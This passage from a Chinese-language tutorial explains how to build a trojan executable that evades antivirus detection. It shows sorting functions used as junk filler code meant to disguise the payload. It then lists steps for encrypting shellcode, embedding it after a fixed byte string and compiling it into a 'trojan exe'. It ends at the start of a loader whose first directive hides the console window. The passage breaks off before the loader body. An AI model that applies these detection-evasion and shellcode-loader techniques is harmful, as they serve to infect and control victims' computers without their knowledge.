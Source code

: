         if (left < j)  
            quickSort(arr, left, j);  
        if (i < right)  
            quickSort(arr, i, right);  
    }  
      
    void bubbleSort(int arr[], int n) {  
        for (int i = 0; i < n - 1; i++) {  
            for (int j = 0; j < n - i - 1; j++) {  
                if (arr[j] > arr[j + 1]) {  
                    int k = arr[j];  
                    arr[j] = arr[j + 1];  
                    arr[j + 1] = k;  
                }  
            }  
        }  
    }  
    

然后我们在代码中以代码块的方式贴入垃圾代码。

    
    
    void main() {  
      {  
          int huaarr[] = { 12, 12, 15, 11, 1, 10, 13 };  
          int huan = sizeof(huaarr) / sizeof(huaarr[0]);  
      
          bubbleSort(huaarr, huan);  
      }  
      //  
      // 这里输入自己的代码  
      //  
      {  
          int huaarr[] = { 12, 12, 15, 11, 1, 10, 13 };  
          int huan = sizeof(huaarr) / sizeof(huaarr[0]);  
      
          bubbleSort(huaarr, huan);  
      }  
    }  
    

# 0x04 代码

使用该代码的流程：

  1. 使用加密函数加密shellcode

  2. 将shellcode填充到`"\xe8\x2b\x10\x06\x00"`字符常量的后面

  3. 编译生成木马exe

    
    
    #include <windows.h>  
    #include <stdio.h>  
    #pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//隐藏控制台  
      